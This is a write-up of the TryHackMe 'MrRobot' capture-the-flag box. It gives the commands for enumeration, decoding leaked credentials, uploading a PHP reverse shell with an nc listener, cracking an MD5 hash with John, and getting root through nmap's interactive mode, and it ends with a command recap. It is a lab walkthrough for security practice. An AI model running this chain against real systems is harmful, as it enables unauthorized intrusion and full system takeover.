







# 📝 Writeup – MrRobot (TryHackMe)

---

## TL;DR
Found WordPress on port 80/443, found creds in a `LICENSE` file, logged in, uploaded a PHP reverse shell (Pentest Monkey), popped a `daemon` shell, cracked `mrrobot`’s MD5 hash to get user creds, and escalated to root via `nmap --interactive` (GTFOBins). Quick and clean.

---

## ENUMERATION
Start with the usual:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Only ports of interest: `22`, `80`, `443`. Focused scan I used:

```bash
nmap -p 22,80,443 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:


---

## WEB / WORDPRESS (PORT 80 / 443)

I poked around: page source, `/robots.txt`, `/sitemap.xml`, README/LICENCE files, then ran a directory fuzz:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ -t 10
```

Notes:

* `robots.txt` contained flag1 + a huge wordlist file (grab that — can be useful later).
* `LICENSE` had base64-encoded credentials (decode them: `echo <b64> | base64 -d`) — they worked on `/wp-login.php`. Bingo.

Screenshots:




---

## GET SHELL — upload PHP webshell

Logged into WP with the creds found in `LICENSE`. Uploaded a PHP reverse shell (Pentest Monkey) as a page / plugin / media (depends how site is configured). Triggered it and got a shell as `daemon`.

Start your listener first:

```bash
nc -nvlp 4444
# then trigger the uploaded PHP page
```

Screenshot (upload):


---

## daemon → mrrobot (user)

Found a hash for `mrrobot` in the home dir (raw MD5). Cracked it with John (or use online cracker):

```bash
# john approach
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show --format=raw-md5 hash.txt
```

After cracking, `su` or `ssh` to `mrrobot`:

```bash
su mrrobot
# or ssh mrrobot@<IP> if SSH keys/port available
```

Screenshot (john):


---

## mrrobot → root (GTFOBins / nmap)

I checked `sudo -l`, SUIDs, cron, etc. Nothing obvious. Ran linpeas for help and noticed `nmap` installed — that’s the hint. GTFOBins documents that some builds of `nmap` have an interactive mode which allows spawning a shell.

Steps to abuse (as `mrrobot`):

1. Run interactive nmap:

```bash
nmap --interactive
```

2. At the `nmap>` prompt, request a shell:

```
nmap> !sh
```

That should drop you to a shell as root (depending on the binary and its permissions in the box — in this challenge it worked).

If `!sh` doesn’t work try:

```
nmap> !bash
```

After that, grab root flag:

```bash
cat /root/<flag>.txt
```

Screenshot (root):


---

## Notes

* /robots -> tells search engines which directories are off limit
* /sitemap.xml -> layout of the site(directories/files etc)

---

## Commands recap (quick)

```bash
# enumerate
nmap -p 22,80,443 -sC -sV -oN scan.nmap <IP>

# fuzz
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ -t 10

# decode base64 creds
echo "BASE64STRING" | base64 -d

# listener
nc -nvlp 4444

# crack md5
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# root with nmap
nmap --interactive
# then at prompt:
# nmap> !sh
```

---

## References

* GTFOBins — `nmap` interactive mode.
* Pentest Monkey — PHP reverse shell.

---

## Final words

MrRobot is a classic — find creds in weird places, upload a webshell, crack a hash, and use a GTFOBins trick to get root. Nice solid box for practicing web → user → root pivots.
